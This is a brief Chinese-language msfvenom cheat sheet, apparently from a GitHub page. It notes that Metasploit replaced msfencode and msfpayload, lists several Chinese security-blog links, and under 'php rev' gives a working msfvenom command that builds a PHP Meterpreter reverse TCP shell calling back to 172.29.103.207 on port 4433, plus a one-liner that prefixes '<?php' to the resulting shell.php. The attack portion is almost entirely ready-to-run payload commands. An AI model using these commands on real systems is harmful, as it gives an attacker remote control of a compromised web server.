 # msfvenom
 metasploit 更新后就移除了 msfencode 以及 msfpayload

 http://www.freebuf.com/sectool/69362.html
 http://blog.51cto.com/biock/1658668
 http://www.secist.com/archives/1070.html
 http://blog.csdn.net/lijia111111/article/details/64124693

# php rev
msfvenom -p php/meterpreter_reverse_tcp LHOST=172.29.103.207 LPORT=4433 -f raw > shell.php
cat shell.php | pbcopy && echo '<?php ' | tr -d '\n' > shell.php && pbpaste >> shell.php